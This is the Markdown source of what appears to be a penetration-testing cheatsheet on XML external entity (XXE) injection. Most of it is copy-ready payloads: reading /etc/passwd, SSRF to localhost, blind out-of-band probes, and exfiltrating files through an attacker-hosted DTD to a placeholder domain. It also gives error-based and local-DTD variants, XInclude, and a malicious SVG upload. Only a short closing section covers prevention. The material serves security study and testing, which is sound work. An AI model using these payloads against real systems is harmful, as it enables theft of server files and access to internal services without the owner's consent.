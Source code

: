 ```yaml
---
title: "XXE attack"
subtitle: ""
draft: false
author: "Hato0"
description: "XXE cheatsheet"

tags: ["web", "penetest", "xxe"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# XML external entity injection

XXE is a specific attack against XML application. It can allow an attacker to view files, interact directly with the backend, or other application related to the corrupt one. 

This attack is perform as an initial vector for SSRF. To check for the vulnerability you will have to intercept the request and change the post data. Post data are used in 99.99% for XML applications.

## Basics

- External entities to retrieve files

	Simple payload to retrieve a file from the filesystem
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/passwd"> \]>
	{{< /highlight >}}
		

- Perform SSRF attacks

	As the previous one simple payload, you can adapt the IP by using URL to fetch APIs or whatever
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "http://127.0.0.1/"> \]>
	{{< /highlight >}}
	

## Blind XXE

- Out-of-band interaction

	In this attack you will use the same payload as for the SSRF combined attack, but you will use your IP to check for inbound traffic.
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "YOUR_DOMAIN_OR_IP"> \]>
	{{< /highlight >}}
	
- Out-of-band interaction via XML parameter entities

	Same principle and a similar payload but two different test
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE stockCheck \[<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR_DOMAIN_OR_IP"> %xxe; \]>
	{{< /highlight >}}
	

- Exfiltrate data using a malicious external DTD

	First, DTD is a text file that store XML attributes and elements used by an application.
	This exfiltration has two phases:
	
	1. You will have to host the DTD file on your website and it should be accessible for external use. This file should contain the following payload:
		
		{{< highlight xml "lineNos=false" >}}
		<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
		<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'YOURDOMAIN/?log=%file;'>"> 
		%eval;  
		%exfil;
		{{< /highlight >}}
	
	
	2. Then exploit as you will do an classical exfiltration but you should specify the DTD file as follow : 

		{{< highlight xml "lineNos=false" >}}
		<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "DTD_URL"> %xxe;]>
		{{< /highlight >}}
	
	
	3. Now you should tcpdump or go to your website logs to view the file you want to retrieve.
	
- Retrieve data via error messages

	This attack has the same action than the external DTD we saw previously. You just need to replace the step 1 payload with the following one:
	
	{{< highlight xml "lineNos=false" >}}
	<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
	<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">  
	%eval;  
	%exfil;
	{{< /highlight >}}
	
	This will throw an error containing the file you specify
	
- Retrieve data by repurposing a local DTD

	For this one you need to find a local DTD on the system. Once you get it you can simply redeclare a function and trigger for example the error based exfiltration. In this example we suppose that the local file is  `DTD_LOCAL_FILE` and the entity inside is called `PWNME`. The following payload is to include on the XML post data :
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE message [
	<!ENTITY % local_dtd SYSTEM "file://DTD_LOCAL_FILE">
	<!ENTITY % PWNME '
	<!ENTITY &#x25; file SYSTEM "file://FILE_PATH_TO_RETRIEVE">
	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
	&#x25;eval;
	&#x25;error;
	'>
	%local_dtd;
	]>
	{{< /highlight >}}


## Others examples

- Exploiting XInclude to retrieve files

	Back to basics, simple efficient payload :
	
	{{< highlight xml "lineNos=false" >}}
	<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file://FILE_PATH_TO_RETRIEVE"/></foo>
	{{< /highlight >}}
	
	
- Exploiting XXE via image file upload

	For this attack you will have to prepare a SVG file containing the following payload and adapt parameters :
	
	{{< highlight xml "lineNos=false" >}} 
	<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file://FILE_PATH_TO_RETRIEVE" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
	{{< /highlight >}}

	Then just upload it as an image and you should have the file data in your image display
	
	
## How to prevent them 

XXE exist due to bad handle of user input or used of dangerous function in used librairie.
The best way to prevent them is to include only necessaries functions or remove unnecessaries ones. 

Import ones to disable are `XInclude` and `external entities resolutions`